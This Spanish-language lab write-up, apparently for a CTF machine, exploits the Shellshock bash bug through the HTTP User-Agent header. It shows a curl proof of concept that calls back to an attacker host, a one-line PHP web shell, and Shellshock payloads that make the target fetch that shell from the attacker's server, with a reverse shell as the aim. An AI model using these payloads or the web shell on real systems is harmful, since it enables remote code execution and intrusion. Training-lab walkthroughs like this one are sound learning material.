 ## ShellShock

Pensé que esta explotación sería algo sobre envenenamiento hasta que me acordé del nombre de la máquina, se trataría de `Shellshock`. Este es un ataque que se lleva a cabo a través de la cabecera `User-Agent` , un bug de `bash` que permite la ejecución remota de comandos, una detección para esta máquina sería la siguiente

![[Pasted image 20241105222724.png]]

## Proof of Concept

Ejecutamos esta solicitud `http` para la URL `http://bruteshock.local/pruebasUltraSecretas`

~~~ bash
curl -I -sLX GET http://bruteshock.local/pruebasUltraSecretas/ -A "() { :; }; curl http://10.88.0.1/test"
~~~

![[ShellShock PoC.mp4]]

Aprovecha el bug Willy!. En el ejemplo anterior estaríamos intentando enviarnos una solicitud HTTP a nuestro servidor `python3`. Es cuando el payload se ejecuta correctamente y envía un `request` a nuestro servidor solicitando un archivo `test`

## File Upload

Aprovechando este bug podremos enviar una `reverse shell` a nuestra máquina atacante, para ello crearemos un archivo que usaremos para ejecutar comandos, nos ayudaremos de `Brupsuite` o `curl`

Archivo `rce.php`
 
~~~ bash
echo '<?php system($_GET["cmd"]); ?>' > rce.php
~~~

Modificaremos el `User-Agent` y enviaremos la siguiente solicitud, pero primero tendremos un servidor HTTP con `python3`

![[Pasted image 20241105231701.png]]

### Burpsuite

En `Burpsite` interceptaremos el tráfico y enviaremos la siguiente solicitud

~~~ bash
() { :; }; curl http://10.88.0.1/rce.php -o exec.php
~~~

![[Pasted image 20241105231020.png]]

### Curl

~~~ bash
curl -I -sLX GET http://bruteshock.local/pruebasUltraSecretas/ -A "() { :; }; curl http://10.88.0.1/rce.php -o exec.php"
~~~
